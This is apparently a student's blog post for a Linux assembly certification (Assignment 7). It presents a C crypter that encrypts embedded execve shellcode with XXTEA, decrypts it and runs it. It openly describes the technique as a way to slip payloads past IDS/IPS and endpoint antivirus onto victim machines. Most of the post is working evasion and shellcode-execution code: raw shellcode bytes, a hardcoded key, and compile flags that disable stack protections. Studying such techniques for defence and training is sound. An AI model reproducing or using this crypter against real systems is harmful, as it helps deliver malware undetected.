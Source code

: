 # Assignment 7

* Create a custom crypter like the one shown in the "crypters" video
* Free to use any encryption schema 
* Can use any programming language

## Execution

If encoding a shellcode minimizes the surface fingerprintable, a crypter can do more, in fact, the whole shellcode get encrypted (also the encoding routine if any). The use of a crypter is very useful in those scenario where an executable has to land to the victim machine passing through network analysis (IPS/IDS) or endpoint antivirus.

When talking about shellcode, size does matter, thus I looked for a very small encryption algorithm. I decided to go for XXTEA that is an improvement of the TEA algorithm (<https://en.wikipedia.org/wiki/XXTEA>).

The following is the crypter/decrypter implemented; note that:

1. The shellcode used is the execve shellcode encoded in the assignment 4;
2. The key is hardcoded.

Obviously, the encryption and decryption routine in a real case scenario are separated, but for clarity and testing purpose it was decided to have a unique executable for both phases.

```c
/*
// Author: Alessio Parzian
// Filename: shellcode_crypter.c
//
// Encrypt a shellcode using the XXTEA algorithm: https://github.com/xxtea/xxtea-c
// Compile with:
// 	gcc -fno-stack-protector -z execstack shellcode_crypter.c -o shellcode_crypter
*/

#include <stdio.h>
#include <string.h>
#include "xxtea.c"

#define SHELLCODELENGTH 103

unsigned char* shellcode = "\xeb\x2d\x5e\x31\xdb\x31\xc9\x31\xd2\xb1\x32\x8a\x1e\x80\xf3\xbb\x80\xe3\xff\x8a\x16\x80\xf2\xbb\x80\xe2\xff\xc0\xc3\x02\x80\xe3\xff\xc0\xca\x06\x20\xd3\xf6\xd3\x88\x1e\x46\xe2\xde\xeb\x05\xe8\xce\xff\xff\xff\xbe\xc2\xd3\x08\xb2\x66\xd3\x06\x26\xd9\xc6\x26\xd3\xc7\x27\xc3\x27\xd7\xc6\x27\xd1\xc7\x08\x74\x68\x86\x37\x64\x7e\x3c\xbb\xbb\xbb\x8f\xdc\x1e\xdf\x8f\xdc\x1c\x98\x5e\x14\xd4\xd4\xd4\xd4\x94\x94\x94\x94";
char* key = "w00tw00tw00tw00t";

int main() {
    size_t len;
    unsigned char *encrypt_data = xxtea_encrypt(shellcode, strlen(shellcode), key, &len);
    printf("======================\n");
    printf("Shellcode encrypted:\n");
    printf("======================\n");
    for (int i = 0; i < strlen(encrypt_data); i++)
    {
        printf("\\0x%02x", encrypt_data[i]);
    }
    printf("\n");

    
    printf("----------------------\n");
    unsigned char *decrypt_data = xxtea_decrypt(encrypt_data, len, key, &len);
    if (strncmp(shellcode, decrypt_data, len) == 0) {
        printf("Encryption success!\n");
    }
    else {
        printf("Encryption fail!\n");
    }
    printf("======================\n");

    printf("======================\n");
    printf("Shellcode decrypted:\n");
    printf("======================\n");
    unsigned char shellcode_decrypted[SHELLCODELENGTH];
	for(int i = 0; i < SHELLCODELENGTH; i++)
	{
    	shellcode_decrypted[i] = decrypt_data[i];
    	printf("\\0x%02x", decrypt_data[i]);
	}
    printf("\n======================\n");

    free(encrypt_data);
    free(decrypt_data);

    printf("Running Shell..\n\n");
    void(*shell)(void) = (void(*)(void))shellcode_decrypted;
    shell();

    return 0;
}
```

The output of the above executable is shown in the following figure.

![Crypter](test.png)

Well, this concludes assignment 7!

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*